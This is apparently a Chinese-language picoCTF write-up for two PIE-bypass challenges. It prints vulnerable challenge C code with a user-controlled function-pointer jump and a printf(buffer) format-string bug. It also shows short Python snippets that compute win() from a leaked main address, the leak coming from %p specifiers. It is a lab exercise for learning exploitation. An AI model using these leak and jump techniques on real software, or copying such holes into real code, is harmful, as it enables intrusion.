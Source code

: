 ```yaml
---
title: PIE TIME &  PIE TIME 2
published: 2025-07-11
updated: 2025-07-12
description: "picoCTF"
image: ""
tags: ["CTF Writeup", "picoCTF", "pwnable"]
category: "picoCTF"
draft: false
---
```


# PIE TIME

這一題可以知道 main 的 address

```c
int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

所以先去得到 main 的 offset 跟 win 的 offset

![objdump](/assets/picoCTF/PIE_TIME/image.png)

可以由 `main address - main offset + win offset` 推算出 win 的 address

所以在正式環境把 main address - (0x133d - 0x12a7) 就可以得出 win addrress

```python
main = 0x5c84c7ebc33d
offset_main = 0x133d
offset_win = 0x12a7

base = main - offset_main
win = base + offset_win
print(hex(win)) # 0x5c84c7ebc2a7
```

![flag](/assets/picoCTF/PIE_TIME/image-1.png)

---

# PIE TIME 2

這一題沒有給 main 的 address 了，但是 `printf(buffer);` 如果輸入`%p` 就可以讀出 stack 上的值

```c
void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
}
```

main 與 win 的相對位置是固定的

![objdump](/assets/picoCTF/PIE_TIME/image-2.png)

stack 上還存著程式執行完 call_functions 後會跳回的 main 函數位址

main 的位址是 `0x0000555555555400`

![main](/assets/picoCTF/PIE_TIME/image-3.png)

![rsp](/assets/picoCTF/PIE_TIME/image-6.png)

嘗試之後好像第 25 個 %p 印出來的值，正好是 main 的位址，nc 過去試試看

```python
MAIN_OFFSET = 0x1400
WIN_OFFSET = 0x136a

offset = MAIN_OFFSET - WIN_OFFSET

print(hex(offset))

leak = 0x6163f4169400

print(hex(leak - offset))
```

![alt text](/assets/picoCTF/PIE_TIME/image-5.png)

![flag](/assets/picoCTF/PIE_TIME/image-4.png)

我覺得這類型的題目還不是很熟，常常都算不好 (╥﹏╥)

---

100 題 Medium 了嘻嘻

![picoCTF](/assets/picoCTF/PIE_TIME/image-7.png)
